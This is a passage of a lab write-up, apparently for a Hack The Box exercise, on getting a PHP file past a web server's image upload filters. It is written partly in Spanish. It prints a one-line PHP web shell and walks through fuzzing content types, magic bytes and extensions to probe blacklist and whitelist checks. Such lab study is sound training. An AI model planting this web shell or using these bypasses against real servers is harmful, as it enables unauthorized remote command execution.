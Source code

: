 # Type Filters
<br>
 The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. 
 Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"

 `Hint`: Start with a request that can be uploaded (e.g. jpg image), then try to find an allowed PHP extension that doesn't get blocked,
 then utilize one of the whitelist filter bypasses to bypass both extension filters.

 ---
- Test payload:
  ```php
  <?php echo "Hello HTB"; ?>
  ```
- Basic web shell:
  ```php
  <?php system($_REQUEST['cmd']); ?>
  ```
 - Web-all-content-types wordlist: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt

- Descargamos la wordlist y filtramos sólo por content-type relacionados a imágenes:
```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```
Nota: `/image/jpg` no está en la lista.

- Common mime types:
  - `jpeg`: `FF D8 FF`
  - `gif`: `GIF8` (GIF87a | GIF89a)

  <br>

 ---
<br>

## Ejercicio

Hacemos fuzzing de `Content-Type` header para ver qué tipos son permitidos:
![image](https://github.com/user-attachments/assets/b6376c4b-05d7-4821-80c6-04b0901559b9)

![image](https://github.com/user-attachments/assets/287f8443-d7fc-41c0-93af-7140125607ca)

Tenemos que sólo son permitidos los siguientes tipos:
- image/gif
- image/jpeg
- image/png


De forma manual sabemos que también permite `image/jpg`.


Ahora testeamos el `file content` utilizando `magic bytes` para conocer los `MIME Types` permitidos:
![image](https://github.com/user-attachments/assets/b5d9d02b-5984-48b1-9473-bfd797379b27)
![image](https://github.com/user-attachments/assets/8acbe838-c50e-48ac-8322-5a2948e611ff)



Intentamos subir la web shell con la extensión `.php` y el servidor nos responde `Extension not allowed`:
![image](https://github.com/user-attachments/assets/290960dc-0829-456a-a84f-2c4ece59ded5)

Sabemos que tenemos blacklists and whitelists. Hacemos fuzzing de whitelist con common web extensions de Seclists, para investigar si se permite alguna extensión además de las extensiones de imágenes:
![image](https://github.com/user-attachments/assets/c1bb7c02-26fc-47f6-a32c-0a0d3bf25942)
![image](https://github.com/user-attachments/assets/05e266e9-ec3a-4658-a82a-47d273a079e2)
No hay ninguna extensión web adicional que esté incluida en la whitelist.
Sabemos que el servidor está validando extensiones a través de una blacklist, que contiene bastantes tipos de extension `.php`, en este caso, el servidor contesta con el mensaje `Extension not allowed`.
Cuando la validación se realiza a través de la whitelist, el servidor responde `Only images are allowed`.

